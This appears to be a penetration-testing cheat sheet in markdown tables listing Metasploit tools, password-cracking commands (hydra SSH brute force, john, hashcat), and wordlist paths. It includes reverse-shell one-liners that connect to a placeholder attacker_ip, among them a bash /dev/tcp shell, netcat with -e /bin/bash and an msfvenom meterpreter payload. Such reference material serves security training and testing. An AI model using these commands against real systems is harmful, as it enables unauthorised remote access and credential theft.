 | Tool/Command            | Description                                 |
| ----------------------- | ------------------------------------------- |
| `msfconsole`            | Launch Metasploit Framework                 |
| `msfvenom`              | Create custom payloads                      |
| `exploit/multi/handler` | Receive incoming payload/reverse shell      |
| `setoolkit`             | Social Engineering Toolkit (phishing, etc.) |

---

### 📂 **Password Attacks**

| Tool/Command                                 | Description                  |
| -------------------------------------------- | ---------------------------- |
| `hydra -l user -P passlist.txt ssh://target` | Brute-force SSH login        |
| `john /path/to/hashfile`                     | Crack password hashes        |
| `hashcat -m 0 -a 0 hash.txt wordlist.txt`    | High-speed GPU hash cracking |
| `crunch 6 8 -o wordlist.txt`                 | Generate custom wordlists    |

---

### 🐚 **Reverse Shells & Listeners**

| Command / Tool                                                                                  | Description                          |
| ----------------------------------------------------------------------------------------------- | ------------------------------------ |
| `nc -lvp 4444`                                                                                  | Start a Netcat listener on port 4444 |
| `nc target_ip 4444 -e /bin/bash`                                                                | Send a reverse shell to listener     |
| `bash -i >& /dev/tcp/attacker_ip/4444 0>&1`                                                     | Bash reverse shell (one-liner)       |
| `python -c 'import pty; pty.spawn("/bin/bash")'`                                                | Upgrade to a full TTY shell          |
| `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f elf > shell.elf` | Create reverse shell payload         |
| `socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash`                                           | Listener with Socat for stable shell |

---

### 📁 **Wordlists & Resources**

| Command / Path          | Description                             |
| ----------------------- | --------------------------------------- |
| `/usr/share/wordlists/` | Directory with common wordlists         |
| `rockyou.txt`           | Popular password list (for brute-force) |

---
